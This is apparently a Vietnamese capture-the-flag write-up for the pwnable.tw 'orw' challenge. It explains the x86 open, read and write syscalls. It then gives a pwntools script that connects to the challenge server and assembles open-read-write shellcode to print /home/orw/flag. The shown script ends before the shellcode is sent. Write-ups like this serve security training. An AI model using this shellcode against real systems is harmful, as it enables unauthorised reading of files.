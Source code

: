 
xem các syscall cần setup : https://syscalls.mebeim.net/?table=x86/32/ia32/latest

- ```open(eax,ebx,ecx,edx)``` : eax là syscall , ebx sẽ trỏ đến địa chỉ chứa đường dẫn , ecx là flag , edx là mode , ở đây ecx và edx là NULL là được

- read(eax,ebx,ecx,edx) :  ebx , ecx , edx tương đương với (fd,buf,count) và eax là 3
- write(eax,ebx,ecx,edx) : eax là 4 ebx,ecx,edx tương tự ```read```

- chú ý là đường dẫn phải theo little edian nên ta dùng p32(..) cho dễ

![image](/assets/images/Pwnable.tw/6.png)

script : có thể dùng ```ppwntool``` cũng được
```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./orw',checksec=False)
context.arch = 'i386'
#p = process()
p = remote('chall.pwnable.tw', 10001)

#gdb.attach(p,gdbscript='''
#           b*0x0804858A
#           b*0x0804857D
#           ''')
shellcode = asm('''
                xor ecx,ecx
                xor edx,edx
                push ecx
                push 0x67616c66
                push 0x2f2f7772
                push 0x6f2f2f65
                push 0x6d6f682f
                mov ebx,esp
                mov eax,5
                int 0x80

                mov ebx, eax
                mov ecx, esp
                mov edx, 0x30
                mov eax, 0x3
                int 0x80


                mov ebx, 0x1
                mov eax, 0x4
                int 0x80
                ''')
sc = asm(
    shellcraft.i386.linux.open(b'/home/orw/flag') +
    shellcraft.i386.linux.read('eax', 'esp', 50) +
    shellcraft.i386.linux.write('1', 'esp', 50)
)
```